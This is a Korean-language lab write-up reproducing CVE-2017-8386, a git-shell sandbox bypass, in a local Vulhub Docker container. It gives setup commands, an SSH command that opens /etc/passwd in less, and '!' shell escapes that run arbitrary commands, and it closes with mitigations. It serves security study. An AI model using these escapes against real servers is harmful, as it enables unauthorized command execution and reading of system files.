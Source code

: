 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론

`git clone https://github.com/phith0n/vulhub.git`


cd vulhub/git/CVE-2017-8386/

### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
docker-compose build
docker-compose up -d
docker ps
	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)

### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록

docker exec -it git-shell-cve-2017-8386 /bin/bash


chsh -s /bin/bash git


su git


mkdir -p ~/.ssh


chmod 700 ~/.ssh


touch ~/.ssh/authorized_keys


chmod 600 ~/.ssh/authorized_keys


vim ~/.ssh/authorized_keys


### 2.6 추가 패키지 설치
apt update


apt install less -y


apt install man-db -y


	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 3.2 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 git-upload-archive --help 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
